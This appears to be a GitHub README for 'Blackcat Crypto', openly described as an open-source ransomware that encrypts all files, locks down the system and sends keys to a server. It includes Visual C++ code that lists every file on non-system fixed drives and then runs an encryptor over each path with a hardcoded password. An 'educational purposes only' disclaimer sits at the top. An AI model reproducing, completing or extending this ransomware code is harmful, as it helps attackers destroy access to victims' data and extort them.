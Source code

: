 #### DISCLAIMER : OUR TOOLS ARE FOR EDUCATIONAL PURPOSES ONLY. DON'T USE THEM FOR ILLEGAL ACTIVITIES. YOU ARE THE ONLY RESPONSABLE FOR YOUR ACTIONS! OUR TOOLS ARE OPEN SOURCE WITH NO WARRANTY AND AS ARE.

<img src="logon.png" alt="logo">

# Blackcat Crypto

Blackcat Crypto is open source Crypto-Locker. Blackcat Crypto is developed in Visual C++. It has features encrypt all file, lock down the system and send keys back to the server. Multi-threaded functionality helps to this tool make encryption faster.

Using a powerful 256-bit encryption algorithm, Once a file is encrypted, File is completely useless without the password. It simply cannot be read.

## Features

1. Strong AES Encryption. (Unbreakable)
2. Lockdown System Functionailty.
3. Multi-Thread Encryption.
4. Powerful Web Admin Interface

<img src="ezgif-1-e99b3d2b6b39.gif" >

## Step 1 (Fetch files)

Getting all files from all drive to encrypting them.

Here is Visual C++ program get all list directory & files in drive and store path in text file for encryption later use. I use Boost C++ libraries to get all files list. Please first setup Boost libraries to compile program.

```
#include <boost/config/warning_disable.hpp>
#include <boost/filesystem.hpp>
#include <iostream>
#include <iterator>
#include <stdio.h>
#include <windows.h>

using namespace std;

fstream out_file("data.txt", ios::out);

#define MAX 256

int main(int argc, char* argv[]) {

	int dr_type = 99;
	char dr_avail[MAX];
	char *temp = dr_avail;

	/* 1st we fill the buffer */
	GetLogicalDriveStrings(MAX, dr_avail);
	while (*temp != NULL) { // Split the buffer by null
		dr_type = GetDriveType(temp);

		char skip[10] = "C:\\";

		if (dr_type == 3 && temp[0] != 'C') {

			boost::system::error_code dir_error;

			for (boost::filesystem::recursive_directory_iterator end, dir(temp, dir_error); dir != end; dir.increment(dir_error)) {
				if (dir_error.value()) {
					cerr << "Error accessing file: " << dir_error.message() << endl;
				}
				else {
					cout << dir->path() << endl;
					out_file << dir->path() << "\n";
				}
			}
		}
		temp += lstrlen(temp) + 1;
	}
	out_file.close();
	system("pause");
	
```

## Step 2 (Encrypt files)

Here firstly I get every file path from "data.txt" line by line and send to this crypy tool with type encryption and password. you can also embed all this program in upper loop for getting path and encrypting data recursively.

```
out_file.open("data.txt", ios::in);
	string line;
	while (out_file.good()) {
		getline(out_file, line);
		cout << line << endl;
		std::string cmmd = "crpt.exe -e -p 4321 ";
		cmmd += line;
		system(cmmd.c_str());
	}
```

# Currently in Development....
# Happy Cyber Security.....Happy Open Source.......
# :)
